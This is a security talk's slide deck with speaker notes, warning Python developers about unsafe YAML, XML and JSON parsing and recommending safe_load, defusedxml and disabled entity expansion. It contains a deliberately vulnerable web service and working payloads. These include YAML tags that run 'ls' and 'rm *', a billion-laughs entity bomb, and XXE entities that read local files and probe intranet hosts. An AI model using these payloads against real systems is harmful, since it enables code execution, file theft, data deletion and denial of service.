





## Serialization formats <!-- .slide: class="center" -->
##are not toys <!-- .element: class="center" -->
Presented by <!-- .element: class="small-text center" --> Not Tom Eastman

Note: 

Before I start, I need to express my profound gratitude to the PSF for helping me get here, I had a long, long way to come.

---

## Who am I? <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

I am Tom Eastman, a developer from Wellington, New Zealand.

I'm a python developer. I'm not a penetration tester.

But my drinking buddies all are, and so I have developed a healthily paranoid worldview, because I don't like it when they break my toys.

---

## Who are you? <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

Who here today works in IT security, or is a pentester?

If you are an IT security professional, you already know all this stuff.

If you're a developer, it's about being aware that this is even a thing.

I'm nervous about talking in front of a crowd about things that some might think are 'remedial'.

But the problem is, the same mistakes keep getting made, and so clearly some people still need to be told. Spread the word!

---

## Serialization Formats <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

Or markup languages or whatever you want to call them.

I just mean formats that structure data we take in so it doesn't suck to get information out of them.

There are a billion of them, in all kinds of languages and uses.

*All* of them have little surprises tucked away. ALL of them are too smart for their own good sometimes.

Today, I'm going to be talking about YAML, XML and JSON. But they're just examples of my larger point.

---

### Why am I talking about this? <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

Who here is familiar with the OWASP top 10?

I was working on a project where there was a non-function reqirement to mitigate all of the OWASP Top 10. I did a decent enough job of it but I was unable to protect myself from what I didn't know about.

And then after a talk from Mike Haworth of Aura. I realized I had more than those 10 to worry about. I went back to work and DOS'd my app in 2 minutes.

As do we all, because an attacker only has to know one thing you don't to screw you over.

---

### 90% of magic merely consists of knowing one extra fact. <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

It's a terry pratchett quote, but it's pretty appropriate when it comes to breaking apps.

The smart hackers know about all the bugs in all the software.

The REALLY smark hackers know about all the features in all the software.

---

## It's not a bug, <!-- .slide: class="center" -->
##it's a feature. <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

Everything I'm talking about today is a feature, not a bug.

These are all things that someone thought was a great idea.

Maybe they all are great ideas, but you need to know about them to decide for yourself.

---

<pre><code>import bottle
import StringIO<br>
@bottle.post('/yaml') 
def yaml():
&nbsp; &nbsp; import yaml
&nbsp; &nbsp; return str(yaml.load(bottle.request.body)) + '\n'<br>
@bottle.post('/lxml') 
def lxml():
&nbsp; &nbsp; from lxml import etree
&nbsp; &nbsp; tree = etree.parse(bottle.request.body)
&nbsp; &nbsp; return tree.getroot().text<br>
@bottle.post('/xml') 
def xml():
&nbsp; &nbsp; from xml.etree import ElementTree
&nbsp; &nbsp; tree = ElementTree.parse(bottle.request.body)
&nbsp; &nbsp; return tree.getroot().text<br>
if &lowbar;&lowbar;name&lowbar;&lowbar; == '&lowbar;main&lowbar;&lowbar;':
&nbsp; &nbsp; bottle.run(host='localhost', port=8080, debug=True)
Note: 

This is my little example I used for preparing this talk.

A tiny web service that is simply parsing the markup and then returning what was parsed. Just for my examples in this talk.

Each endpoint is the bare minimum code to get from zero-to-parsing. No option setting. Import library; use library to get the data.

Think about it: as a developer, you know that parsing a data file is the least interesting part of your day.

All you care about is what's in the file.

---

# YAML <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

Let's start with YAML because it's been in the news lately.

YAML's been around since 2001ish and is very popular in languages like Ruby and Python.

It pretends to be a human readable serialization format.

---

## Parsing YAML <!-- .slide: class="center" -->

POST /yaml

```yaml 
first_name: Tom
last_name: Eastman
email_address: tom@catalyst.net.nz
``` 

RESPONSE 

```py 
{'email_address': 'tom@catalyst.net.nz',
'first_name': 'Tom',
'last_name': 'Eastman'}
``` 

Note: 

I've got a bunch of slides like this. At the top is the raw input to my little web service, in this case a simple snippet of YAML.

Below that I have the parsed output, which is a Python dictionary object.

I've got a bunch of examples like this, is everyone with me?

---

## Parsing YAML <!-- .slide: class="center" -->

POST /yaml

```yaml 
'first_name': Tom
'last_name': Eastman
'email_address': tom@catalyst.net.nz
'birthday': !!python/object/apply:datetime.date [1980, 1, 1]
``` 

RESPONSE 

```py 
{'email_address': 'tom@catalyst.net.nz',
'first_name': 'Tom',
'last_name': 'Eastman',
'birthday': datetime.date(1980, 1, 1)}
``` 

Note: 

Here's we're doing something much more clever -- we're instantiating an instance of a Python date class.

The YAML Parser finds the datetime module and instances a 'date' using the arguments provided.

Did a shiver go down anyone's spine?

---

### ... hmm, what else can we do ... <!-- .slide: class="center" -->

---

## Parsing YAML <!-- .slide: class="center" -->

POST /yaml

```yaml 
'first_name': Tom
'last_name': Eastman
'email_address': tom@catalyst.net.nz
'contents_of_cwd': !!python/object/apply:subprocess.check_output ['ls']
``` 

RESPONSE 

```py 
{'email_address': 'tom@catalyst.net.nz',
'first_name': 'Tom',
'last_name': 'Eastman',
'contents_of_cwd': 'badservice.py\nbadservice.py~\nbob.yaml\nbob.yaml~\nthousandlaughs.xml\nxxe_1.xml\n'}
``` 

Note: 

Well, this can't be good.

I can use the exact same mechanism to 'instantiate' the python standard library function for shelling out to the system.

---

### hey... I wonder if... <!-- .slide: class="center" -->

Note: 

Famous last words?

---

## Parsing YAML <!-- .slide: class="center" -->

POST /yaml

```yaml 
'first_name': Tom
'last_name': Eastman
'email_address': tom@catalyst.net.nz
'goodbye': !!python/object/apply:os.system ['rm *']
'contents_of_cwd': !!python/object/apply:subprocess.check_output ['ls']
``` 

RESPONSE 

```py 
{'first_name': 'Tom',
'email_address': 'tom@catalyst.net.nz',
'last_name': 'Eastman',
'goodbye': 0,
'contents_of_cwd': '\n'}
``` 

Note: 

C'mon, I had to try it, right?

And so yeah, I ended up re-writing my little web server after that call cleaned out the directory it was in.

---

### Surely this doesn't happen in real life? <!-- .slide: class="center" -->

Note: 

That's so blatantly bad that surely this wouldn't actually happen in real life, right?

---
### November 2011 <!-- .slide: class="center" -->



Note: 

Two of the most popular REST framework libraries used with Django

---
### January 2013 <!-- .slide: class="center" -->



Note: 

Ruby on Rails, which you've probably heard of.

---

### February 2013 <!-- .slide: class="center" -->



---

### June 2013 <!-- .slide: class="center" -->



Note: 

This is the one that made me want to write this talk.

---

### Also in June 2013 <!-- .slide: class="center" -->


---

### How do I protect myself? <!-- .slide: class="center" -->

---
### Make the parser stupider <!-- .slide: class="center" -->

---
## Disable YAML tag parsing <!-- .slide: class="center" -->

### Python <!-- .slide: class="center" -->

```py 
# ...instead of...
result = yaml.load(something)
# ..just use..
result = yaml.safe_load(something)
# easy-peasy!
``` 

### Ruby <!-- .slide: class="center" -->

```ruby 
# https://github.com/dtao/safe_yaml
YAML.load(something, :safe => true)
# (blows my mind that you need an external gem...)
# (but I could be missing something)
``` 

Note: 

By the way, I think you're actually a little bit SAFER in one way with ruby.

Based on what I've read, the ruby parser requires the class you're deserializing to be already loaded.

The python one, on the other hand, will happily import the module for you.

---

# XML <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

I was trying to think of something scary like "Fun with XML" or "Dangerous XML", but it speaks for itself.

---

## Entities <!-- .slide: class="center" -->

POST /lxml

```xml 
<?xml version="1.0" encoding="ISO-8859-1"?>
<foo> 
Yay! Smile! &#9786;
</foo> 
``` 

RESPONSE 

``` 
Yay! Smile! ☺
``` 

---

## Defining entities <!-- .slide: class="center" -->


POST /lxml

```xml 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY smiley "&#9786;" >]>
<foo> 
Yay! Smile! &smiley;
</foo> 
``` 

RESPONSE 

``` 
Yay! Smile! ☺
``` 

---

### Recursive entity expansion <!-- .slide: class="center" -->

POST /xml

```xml 

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY smiley "&#9786;" >
<!ENTITY s2 "&smiley;&smiley;&smiley;&smiley;&smiley;">
<!ENTITY s3 "&s2;&s2;&s2;&s2;&s2;&s2;&s2;&s2;&s2;&s2;&#x000A;">
<!ENTITY s4 "&s3;&s3;&s3;&s3;&s3;&s3;&s3;&s3;&s3;&s3;">]>
<foo> 
Yay! Smile! &s4;
</foo> 
``` 

RESPONSE 

``` 
Yay! Smile!
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
``` 

---

POST /xml

```xml 
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]> 
<lolz>&lol9;</lolz> 
``` 

RESPONSE 

``` 
... the smoking ruin of your former laptop ...
``` 

Note: 
Actually, this is only the 168 million laughs attack

Funny story, my laptop exploded before I could even post this to my test server, because the text editor I was using tried to parse it.

---

### ... what else can we do ... <!-- .element: class="center" --> <!-- .slide: class="center" -->

---

### External entities <!-- .slide: class="center" -->

POST /lxml

```xml 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY lsb_release SYSTEM "file:///etc/lsb-release">]>
<foo> 
&lsb_release; 
</foo> 
``` 

RESPONSE 

<pre><code> 
DISTRIB_ID&equals;Ubuntu  <!-- .slide: class="center" -->
DISTRIB_RELEASE&equals;12.04 
DISTRIB_CODENAME&equals;precise 
DISTRIB_DESCRIPTION&equals;"Ubuntu 12.04.3 LTS"</code></pre>
Note: 

ANY file the parser can read is fair game.

I'll bet the parser can read the apps configuration files.

Of course it can read its own source code.

---

### External entities <!-- .slide: class="center" -->

POST /lxml

```xml 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY a_file_on_the_local_intranet
SYSTEM "http://192.168.76.82/hello">]>
<foo> 
&a_file_on_the_local_intranet; 
</foo> 
``` 

RESPONSE 

``` 
Hi! 

I'm a file on Tom's laptop's webserver.

Isn't that nice?
``` 

Note: 

Good news: The Python LXML library actually tried to stop this. It defaulted to not allowing me to expand network entities.

Hey look! A clever attacker (and they are all clever) can use the XML
parser to port-scan the internal network.

You could even connect to port 25/110/etc

---

### Surely this doesn't happen in real life? <!-- .element: class="center" --> <!-- .slide: class="center" -->

---

### All. The. Time. <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

Yeah sorry, I'm not going to do a slideshow for you.

I'm too scared I'll find out that this happens more often than it NOT happens.

It's an education problem: sometimes the same people who do this are leaving their parsers running as root.

---

### How do I protect myself? <!-- .element: class="center" --> <!-- .slide: class="center" -->


---

* Don't allow DTDs
* Don't expand entities
* Don't resolve externals
* Limit parse depth
* Limit total input size
* Limit parse time
* Favor a SAX or iterparse-like parser for potential large data
* Validate and properly quote arguments to XSL transformations and XPath queries
* Don't use XPath expression from untrusted sources
* Don't apply XSL transformations that come from untrusted sources

Note: 

`https://www.isecpartners.com/media/12976/iSEC-HILL-Attacking-XML-Security-bh07.pdf` 

Oh, is that all? that's easy!

That's a lot of work. But it boils down to the same thing as before...

---

### Make the parser stupider <!-- .element: class="center" --> <!-- .slide: class="center" -->

---

### Make the parser stupider <!-- .slide: class="center" -->

#### Python <!-- .slide: class="center" -->

defusedxml 

`https://pypi.python.org/pypi/defusedxml` 


#### Other languages <!-- .slide: class="center" -->

* Work out how to turn off the features you don't absolutely need.
* If you *need* some of these features, maybe re-think your needs?

---

### JSON: Finally stupid enough? <!-- .element: class="center" --> <!-- .slide: class="center" -->

---
### ...only if you use a<br>stupid enough parser! <!-- .element: class="center" --> <!-- .slide: class="center" -->

---
### `eval()` is not a<br>stupid enough parser. <!-- .element: class="center" --> <!-- .slide: class="center" -->

---

#### `eval()` is not a stupid enough parser. <!-- .slide: class="center" -->

 

---

#### `eval()` is not a stupid enough parser. <!-- .slide: class="center" -->

 

Note: 

In fairness, both of these pages, further down, say that using eval 'might cause security concerns'.

Why don't they SAY THAT FIRST?!

---

# The lesson <!-- .element: class="center" --> <!-- .slide: class="center" -->

---

### Beware of flexibility <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

If a tool sells itself as "Look what I can do!", lookout!

---

### Disable EVERYTHING <!-- .element: class="center" --> <!-- .slide: class="center" -->

Note: 

Features that surprise you are just as bad than bugs that surprise you.

No-one's really *suprised* by bugs, after all.

---

### K.I.S.S. <!-- .element: class="center" --> <!-- .slide: class="center" -->

---

#### Thank you so much for your time! <!-- .element: class="center" --> <!-- .slide: class="center" -->